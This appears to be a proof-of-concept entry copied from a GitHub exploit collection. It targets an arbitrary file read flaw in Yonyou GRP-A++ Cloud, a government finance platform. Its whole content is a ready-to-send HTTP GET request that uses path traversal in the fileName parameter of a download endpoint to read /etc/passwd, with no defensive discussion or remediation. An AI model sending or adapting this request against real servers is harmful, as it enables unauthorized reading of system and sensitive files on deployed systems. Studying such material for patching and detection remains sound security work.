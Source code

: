 # yonyouGRPA-Cloud_download_fileread

from : https://github.com/wy876/POC/blob/main/%E7%94%A8%E5%8F%8BGRPA%2B%2BCloud%E6%94%BF%E5%BA%9C%E8%B4%A2%E5%8A%A1%E4%BA%91%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E.md
2024.5.13 @2 

```
GET /ma/emp/maEmp/download?fileName=../../../etc/passwd HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```
